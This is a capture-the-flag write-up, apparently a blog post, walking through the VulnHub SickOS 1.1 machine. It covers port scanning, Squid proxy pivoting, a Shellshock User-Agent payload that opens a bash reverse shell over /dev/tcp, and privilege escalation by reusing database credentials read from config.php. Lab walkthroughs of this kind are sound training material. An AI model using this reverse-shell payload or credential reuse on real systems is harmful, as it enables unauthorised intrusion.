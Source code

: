 ```yaml
---
layout: blog_item
title:  "SickOS 1.1 - Walkthrough"
date:   2024-01-11 11:00:10
author: Dhruv Ambaliya
description: 'SickOS 1.1 - Walkthrough / Writeup'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Intermediate</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them.

**Author:** [@D4rk36](https://twitter.com/D4rk36)

**Download:** [VulnHub](https://www.vulnhub.com)


## Host Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.138

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 3128</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP-Proxy</p></pc>
           </td>
           <td>
               <pc><p>Squid http proxy 3.1.19</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Squid Enumeration

Inspection of Squid using the metasploit module <code>auxiliary/scanner/http/squid_pivot_scanning</code> discovered port 80 was exposed via the proxy.

![Metasploit Squid Pivot Scanning](/img/blog/sickos/metasploit-squid-pivot-scanning.png)


## Nikto scan via Proxy

Nikto was configured to use the discovered Squid proxy:

{% highlight bash %}

[root:~]# nikto -h 192.168.221.138 -useproxy http://192.168.221.138:3128

{% endhighlight %}

Nikto disclosed the location <code>/cgi-bin/status</code>, indicating the target could be vulnerable to **shellshock**.

![Nikto Proxy Scan](/img/blog/sickos/nikto-proxy-scan.png)


## Shellshock Bash Reverse Shell

**Burp Suite** was used to manipulate <code>User-Agent:</code> to include the bash reverse shell.

{% highlight bash %}
() { ignored;};/bin/bash -i >& /dev/tcp/192.168.221.139/443 0>&1
{% endhighlight %}


![Burp Suite Shellshock Reverse Bash Shell](/img/blog/sickos/burp-shellshock-reverse-shell.png)

A reverse shell was established:

{% highlight bash %}

[root:~]# nc.traditional -lp 443 -vvv
listening on [any] 443 ...

192.168.221.138: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.138] 59815
bash: no job control in this shell
www-data@SickOs:/usr/lib/cgi-bin$

{% endhighlight %}


## Local Enumeration

Local enumeration of the system disclosed the file <code>/var/www/wolfcms/config.php</code> containing:

{% highlight bash %}
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
{% endhighlight %}

## Local Privilege Escalation

The previously discovered credentials worked for MySQL root, and were reused for the user <code>sickos</code> and again for <code>sudo</code> as the user <code>sickos</code>.

Local Privilege Escalation:

{% highlight bash %}

www-data@SickOs:/$ su - sickos
su - sickos
Password: john@123

sickos@SickOs:~$ ls
ls
sickos@SickOs:~$ cat .bash_history
cat .bash_history
sudo su
exit
sickos@SickOs:~$ sudo -s
sudo -s
[sudo] password for sickos: john@123

root@SickOs:~# cd /root  
cd /root
root@SickOs:/root# ls
ls
a0216ea4d51874464078c618298b1367.txt
root@SickOs:/root# cat a0216ea4d51874464078c618298b1367.txt
cat a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying


root@SickOs:/root#

{% endhighlight %}

### Root Flag

![Sickos 1.1 Root Flag](/img/blog/sickos/root-flag.png)

Thanks for the VM :)
